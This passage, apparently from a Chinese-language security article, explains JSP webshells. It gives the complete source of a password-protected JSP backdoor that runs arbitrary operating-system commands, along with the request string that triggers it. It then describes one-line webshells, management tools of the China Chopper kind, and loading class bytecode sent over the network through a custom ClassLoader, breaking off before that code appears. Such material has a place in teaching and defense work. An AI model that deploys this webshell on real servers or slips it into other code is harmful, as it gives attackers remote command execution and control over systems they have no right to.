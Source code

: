 # Webshell

当浏览器请求 JSP 页面时， JSP 引擎会首先去检查是否需要编译这个文件。如果这个文件没有被编译过，或者在上次编译后被更改过，则编译这个 JSP 文件。

常见 JSP 引擎可能解析的后缀包括：jsp， jspx，jspf，jspa，jsw，jsv，jtml 等，不同的后缀可能对应不同的语法结构，但是总原理是一样的。

因此，这种方式使我们可以像 PHP/ASP 等解释型语言一样通过直接使用原代码文件的方式获取一个网站的Webshell。

所谓Webshell，是黑客入侵网站后经常使用的一种网页后门，通过使用一句话木马、特定功能小马或多功能大马来完成通过单文件对服务器系统的控制，通常包括查看系统信息、文件操作、代码执行、命令执行、数据库执行、反弹提权，查找文件、端口扫描、远程文件下载等功能。

如下为使用 `Runtime.getRuntime().exec()` 执行命令的木马：

```jsp
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8" %>
<%!
    public static String executeCmd(String c) {
        StringBuilder line = new StringBuilder();
        try {
            Process        pro  = Runtime.getRuntime().exec(c);
            BufferedReader buf  = new BufferedReader(new InputStreamReader(pro.getInputStream()));
            String         temp = null;
            while ((temp = buf.readLine()) != null) {
                line.append(temp).append("\n");
            }
            buf.close();
        } catch (Exception e) {
            line.append(e.getMessage());
        }
        return line.toString();
    }
%><%
    if ("023".equals(request.getParameter("pwd")) && !"".equals(request.getParameter("cmd"))) {
        out.println("<pre>" + executeCmd(request.getParameter("cmd")) + "</pre>");
    } else {
        out.println(":-)");
    }
%>
```

攻击者可以通过访问：`?pwd=023&cmd=ls` 来执行系统命令。不同木马的编制就是实现不同的功能，对于编码本身并没有什么难度，在这里并不进行赘述。

除了小马、大马外，对于webshell的使用更多的是一句话木马，因为可以自定义执行动作，并可以使用菜刀或其他管理工具进行连接。

对于使用<font color='red'>一句话木马</font>，在其他语言如 PHP 中通常使用 eval/assert 等有能力将字符串转为代码执行的函数或方法，配合中国菜刀等管理工具能够很丝滑的通过一个简单的 Webshell 管控服务器，对于 Java 这个语言该如何实现这些功能呢？

1. **实现菜刀协议**

很长的时间对于 jsp 木马的使用都是实现了菜刀的协议，这本质上并不是任意代码执行，本质上还是 JSP 大马，这部分的代码在网上可以搜寻得到。

2. **ClassLoader**

顾名思义，它是用来加载 Class 的。它负责将 Class 的字节码形式转换成内存形式的 Class 对象。字节码的本质就是一个字节数组 byte[]，它有特定的复杂的内部格式。

我们通过重写 ClassLoader 来实现通过网络传来的编译后的类字节码，创建新实例，如下：
